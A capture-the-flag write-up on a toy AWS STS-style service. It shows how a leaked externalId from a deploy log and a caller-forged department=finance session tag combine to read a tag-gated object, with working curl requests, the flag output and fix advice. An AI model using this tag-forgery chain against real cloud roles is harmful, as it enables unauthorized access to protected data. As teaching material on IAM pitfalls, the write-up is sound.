

# STAGEWORKS, Assume-Role + Session-Tag Forgery, My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | STAGEWORKS ("Collection desk", STS-style assume-role API) |
| **Service** | Flask on **Werkzeug/3.1.9**, Python 3.11.16, HTTP, TCP/8400 (EC2) |
| **IP:Port** | `54.72.82.22:8400` |
| **Artifacts** | `resources/rehearsal/`, `policy.json`, `deployment.log` |
| **Flag format** | `safctf{...}` |
| **Date** | 2026-10-03 |
| **Outcome** | Assumed the `lighting` role with a leaked `externalId`, then forged a `department=finance` session tag to read a tag-gated object. |
| **Honesty note** | My angle on this one was to look at how the external_id ties roles/accounts together and whether it can be forged. I worked the box alongside the `rehearsal/` folder. The decisive move turned out to be the **session-tag** forgery, with the externalId simply leaked in a deploy log. |

---

## 1. The Short Version

Stageworks mimics AWS STS: `POST /api/assume` takes `role`, `external_id`, and `tags`; `GET /api/object` reads an object based on your session. The `rehearsal/` bundle hands over the whole trust design:

- **`policy.json`**, assuming `lighting` requires a specific `externalId`; the object has a condition `sessionTag/department == "finance"`; and **`tagSession: true`** (tags you pass to assume become your session's tags).
- **`deployment.log`**, leaks the lighting externalId: `d4a868d5e1dbf4bf89c6c520`.

So the attack is two linked abuses: **(1)** use the **leaked externalId** to pass the trust check for `lighting`, and **(2)** **forge** the `department=finance` session tag, a tag I should never be able to self-assert, because `tagSession:true` makes the server trust caller-supplied tags. That session then satisfies the object's condition.

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{b9d2678027feea5870c41931b663fd6d}` | assume `lighting` (leaked externalId) + forged `department=finance` tag → `GET /api/object` |

---

## 1.1 Attack Chain



---

## 2. Weaknesses I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | Caller-supplied **session tags** are trusted and gate authorization | **Privilege Escalation via Self-Asserted Attributes** (CWE-863 / Confused Deputy) | `POST /api/assume` (`tagSession:true`) → `GET /api/object` | High |
| 2 | `externalId` (a shared-secret trust control) disclosed in a deploy log | Information Exposure (CWE-200 / CWE-532) | `deployment.log` | High (defeats the trust gate) |

---

## 3. Recon

```bash
$ cat rehearsal/policy.json
{"trust":{"role":"lighting","externalId":"integration-value"},
 "object":{"condition":{"sessionTag/department":"finance"}},
 "tagSession":true}

$ cat rehearsal/deployment.log
Lighting integration: externalId=d4a868d5e1dbf4bf89c6c520

$ curl -s http://54.72.82.22:8400/api/identity
{"account":"stageworks","role":"visitor","session":"guest"}
```
I start as `visitor/guest`. To read the object I need a session tagged `department=finance`. Tags are applied at assume time (`tagSession:true`), and assuming `lighting` needs the externalId, which `deployment.log` leaked.

---

## 4. The Exploit

One request to assume, carrying the leaked externalId **and** the forged tag:
```bash
$ curl -s -X POST http://54.72.82.22:8400/api/assume -H 'Content-Type: application/json' \
    -d '{"role":"lighting","external_id":"d4a868d5e1dbf4bf89c6c520","tags":{"department":"finance"}}'
{"token":"ba43d0c57df10dd746f1ebf7408ab27d21e7"}
```
The returned `token` is my session id. Use it as `X-Session` on the object endpoint:
```bash
$ curl -s http://54.72.82.22:8400/api/object -H 'X-Session: ba43d0c57df10dd746f1ebf7408ab27d21e7'
{"message":"safctf{b9d2678027feea5870c41931b663fd6d}","ok":true}
```

> **Flag:** `safctf{b9d2678027feea5870c41931b663fd6d}`

---

## 5. On "Can the externalId Be Forged?"

Two things tie identity to access here, and **both are broken**:

- **`externalId`**, in real AWS this is the **confused-deputy control** (`sts:ExternalId`): a secret the trusting account shares so a third party can't trick your role into being assumed. Here it's a 24-hex, hash-shaped value (same flavour as the Night Bus object id), so it *could* be a forgeable `hash(something)[:24]`. I didn't need to forge it: it was **leaked verbatim in a deploy log**, which is the more common real-world failure (secrets in CI logs/artifacts). A secret you can read is a secret you don't need to forge.
- **session tags**, the real forgery. The `department=finance` tag that gates the finance object is **self-asserted by the assuming caller** and trusted because `tagSession:true`. You literally forge your own authorization attribute in the request body. In AWS terms: letting the principal set session tags that are then used in a resource condition, without `aws:TagKeys`/trust constraints.

So the answer to your question: the externalId didn't need forging (it leaked), but the **tag that actually unlocks the object is forged by the caller**, that's the vulnerability.

---

## 6. Why It Worked & How I'd Fix It

- *Cause:* authorization is decided on **attributes the caller controls**, a leaked trust secret plus self-asserted session tags.
- *Fix:*
  - **Keep `externalId` secret**, never in logs, artifacts, or client-reachable files; rotate if exposed.
  - **Don't let the assuming party set authorization-bearing tags.** Session tags used in resource conditions must be derived from the *role/identity definition* on the trusted side, or constrained by the trust policy (`aws:TagKeys`, `sts:TagSession` limits), not taken from the request body.
  - Apply least privilege: the `lighting` role shouldn't be able to produce a `finance`-tagged session at all.

---

## 7. Timeline

- `rehearsal/policy.json` → trust(lighting+externalId), object needs `sessionTag/department=finance`, `tagSession:true`.
- `rehearsal/deployment.log` → leaked externalId `d4a868d5e1dbf4bf89c6c520`.
- `GET /api/identity` → `visitor/guest`.
- `POST /api/assume` role=lighting + leaked externalId + **forged** `tags.department=finance` → `token`.
- `GET /api/object` with `X-Session: token` → **flag**.

---

## 8. References

- AWS STS: **`AssumeRole`**, **`ExternalId`** (confused-deputy prevention), **session tags** & `aws:PrincipalTag`/`aws:RequestTag` conditions
- CWE-863 (Incorrect Authorization), CWE-200/CWE-532 (Info Exposure / in Logs), Confused Deputy
- OWASP: Broken Access Control; cloud IAM trust-policy pitfalls

---

## 9. Appendix, One-liner

```bash
TOK=$(curl -s -X POST http://54.72.82.22:8400/api/assume -H 'Content-Type: application/json' \
  -d '{"role":"lighting","external_id":"d4a868d5e1dbf4bf89c6c520","tags":{"department":"finance"}}' | jq -r .token)
curl -s http://54.72.82.22:8400/api/object -H "X-Session: $TOK"
# {"message":"safctf{b9d2678027feea5870c41931b663fd6d}","ok":true}
```
Two lessons I'm keeping: **read the deploy artifacts** (`policy.json` + `deployment.log` gave me the trust rules *and* the secret); and **follow which attribute actually gates the resource**, here it was a **session tag the caller sets themselves**, so "can it be forged?" was the whole exploit.
